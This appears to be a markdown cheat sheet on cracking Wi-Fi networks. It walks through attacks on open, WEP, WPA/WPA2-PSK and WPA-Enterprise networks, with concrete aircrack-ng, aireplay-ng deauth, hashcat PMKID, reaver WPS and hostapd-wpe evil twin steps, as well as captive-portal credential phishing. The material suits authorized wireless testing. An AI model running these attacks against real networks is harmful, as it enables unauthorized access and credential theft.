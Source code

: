 # CRACKING CONCEPTS

**Category:** CRACKING CONCEPTS
## CONCEPTUAL: Open (OPN) Networks
No encryption. Anyone can connect and sniff traffic (unless HTTPS is used).

```bash
Passive sniffing (e.g., airodump-ng, tcpdump)
ARP spoofing, DNS spoofing, session hijacking (e.g., ettercap, bettercap)
Evil twin or captive portal injection
```

## CONCEPTUAL: Wired Equivalency Prototol (WEP) Networks
Very weak encryption, crackable in minutes.

```bash
Capture a large number of IVs (Initialization Vectors) with airodump-ng
Speed up collection with ARP replay:
   aireplay-ng -3 -b <BSSID> -h <your MAC> wlan1
Crack key with:
   aircrack-ng <capture file>
```

## CONCEPTUAL WPA/WPA2-Personal (PSK) Networks
Shared password, secured via a 4-way handshake.
Primary attack: Capture the handshake and crack it offline with a wordlist.

Standard Attack Flow
```bash
Start monitor mode and capture traffic: airodump-ng
Deauth a client: aireplay-ng -0 10 -a <BSSID> -c <client> wlan1
Wait for reconnect — capture the 4-way handshake
Crack:
    aircrack-ng -w <wordlist> <capture.cap>
```

PMKID Attack (No client needed)
Works on some routers (mainly Broadcom)
```bash
hcxdumptool -i wlan1mon -o dump.pcapng --enable_status=1
hcxpcapngtool -o pmkid.hccapx dump.pcapng
hashcat -m 16800 pmkid.hccapx -a 0 <wordlist>
```
WPS PIN Brute-force (Vulnerable routers with WPS enabled)
```bash
reaver -i wlan1mon -b <BSSID> -vv
```

Offline Rainbow Table Attacks (e.g. cowpatty)
```bash
Pre-computed PMKs based on SSID and dictionary
```



## CONCEPTUAL: WPA/WPA2-Enterprise (WPA-MGT / WPA-EAP) Networks
Uses 802.1X with a RADIUS server and EAP authentication
Password not stored in a static hash like PSK — must be captured in real-time during login and cracked.

Evil Twin (PEAP/MSCHAPv2)
```bash
Spoof real SSID using hostapd-wpe
User connects, supplies credentials → hashes logged
Crack with asleap or hashcat (MSCHAPv2 hash)
```

Rogue AP / Probe Attack
```bash
Use hostapd-wpe or eaphammer to listen for probe requests
Stand up AP with matching SSID
When client autoconnects, grab MSCHAPv2 creds
```

MITM Downgrade (EAP-Relay)
```bash
Relay client’s credentials to real server (e.g., wifiphisher MITM attacks)
May work depending on misconfigurations
```

Credential Harvesting w/ Fake Portal
```bash
Use wifiphisher or custom captive portal
Not a hash-based crack, but still credential theft
```
--
